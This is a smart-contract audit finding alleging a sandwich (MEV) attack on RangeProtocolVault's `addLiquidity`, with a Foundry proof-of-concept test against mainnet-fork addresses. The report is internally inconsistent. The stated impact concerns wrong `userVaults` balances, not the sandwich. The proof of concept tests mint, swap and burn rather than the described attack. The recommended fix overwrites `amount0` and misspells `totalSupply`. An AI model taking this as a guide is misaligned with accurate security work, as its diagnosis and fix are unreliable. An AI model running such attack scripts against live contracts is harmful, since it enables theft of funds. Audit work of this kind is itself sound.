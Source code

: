 # A malicious user can sandwich `RangeProtocolVault.addLiquidity()` to extract MEV by manipulating prices.

## Bug Description
`RangeProtocolVault.addLiquidity` does not check for minimum liquidity to be minted by `RangeProtocolVault.addLiquidity()`.

It will allow malicious user to make profit out of victim tx by sandwitching with swap.

- Frontrunning tx -> swapping `token0 -> token1`
- Victim tx -> `RangeProtocolVault.addLiquidity`
- Backrunning tx -> swapping `token1 -> token0`

https://github.com/Range-Protocol/contracts/blob/base-uniswap-deployment/contracts/RangeProtocolVault.sol#L388-L394
```
    function addLiquidity(
        int24 newLowerTick,
        int24 newUpperTick,
        uint256 amount0,
        uint256 amount1,
        uint256[2] calldata maxAmounts
    ) external override onlyManager returns (uint256 remainingAmount0, uint256 remainingAmount1) {
        ...
        uint128 baseLiquidity = LiquidityAmounts.getLiquidityForAmounts(
            sqrtRatioX96,
            newLowerTick.getSqrtRatioAtTick(),
            newUpperTick.getSqrtRatioAtTick(),
            amount0,
            amount1
        );

        ...
    }
``` 

## Impact
Token balance in `userVaults` mapping will contain incorrect balances.

## Recommendation
Can create following view function instead of userVaults mapping to get user's token balance.

It will save gas too, as there's no need to update mapping during minting, burning, transfering vault token.

```
    function getUserTokenBalance(address user) external view returns (uint256 amount0, uint256 amount1) {
        (amount0, amount1) = getUnderlyingBalances();
        amount0 = amount0 * balanceOf(user) / totalSuppy();
        amount0 = amount1 * balanceOf(user) / totalSuppy();
    }
```

## Proof of Concept
```
pragma solidity 0.8.20;

import "forge-std/Test.sol";

import "@openzeppelin/contracts/interfaces/IERC20.sol";
import "../src/interfaces/IUniswapPairV2.sol";

interface IRangeProtocolVault {
    function mint(
        uint256 mintAmount
    ) external returns (uint256 amount0, uint256 amount1);

    function burn(
        uint256 burnAmount
    ) external returns (uint256 amount0, uint256 amount1);

    function swap(
        bool zeroForOne,
        int256 swapAmount,
        uint160 sqrtPriceLimitX96
    ) external returns (int256 amount0, int256 amount1);

    function userVaults(address user) external view returns (
        bool exists,
        uint256 token0,
        uint256 token1);

    function manager() external view returns (address);
}

IRangeProtocolVault constant vault = IRangeProtocolVault(0x9Ad8d0df2dA118DcE898b7F5BD9Ab749c593A5d9);
IERC20 constant WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
IERC20 constant USDC = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);

contract RangeTest is Test {

    uint160 internal constant MIN_SQRT_RATIO = 4295128739;
    uint160 internal constant MAX_SQRT_RATIO = 1461446703485210103287273052203988822378723970342;

    function setUp() public {
        vm.createSelectFork("mainnet");

        vm.label(address(vault), "Vault");
        vm.label(address(WETH), "WETH");
        vm.label(address(USDC), "USDC");
    }
    
    function testRange() public {
        uint256 token0;
        uint256 token1;

        console.log("Step 1: Minting ...");
        deal(address(USDC), address(this), 1 ether);
        deal(address(WETH), address(this), 1000 ether);
        USDC.approve(address(vault), type(uint256).max);
        WETH.approve(address(vault), type(uint256).max);
        vault.mint(100000);
        (, token0, token1) = vault.userVaults(address(this));
        emit log_named_decimal_uint("USDC", token1, 6);
        emit log_named_decimal_uint("WETH", token0, 18);

        console.log("Step 2: Swapping ...");
        vm.startPrank(vault.manager());
        vault.swap(true, 100000, MIN_SQRT_RATIO + 1);
        vm.stopPrank();
        (, token0, token1) = vault.userVaults(address(this));

        vault.burn(100000);
        emit log_named_decimal_uint("USDC", token1, 6);
        emit log_named_decimal_uint("WETH", token0, 18);
    }
}
```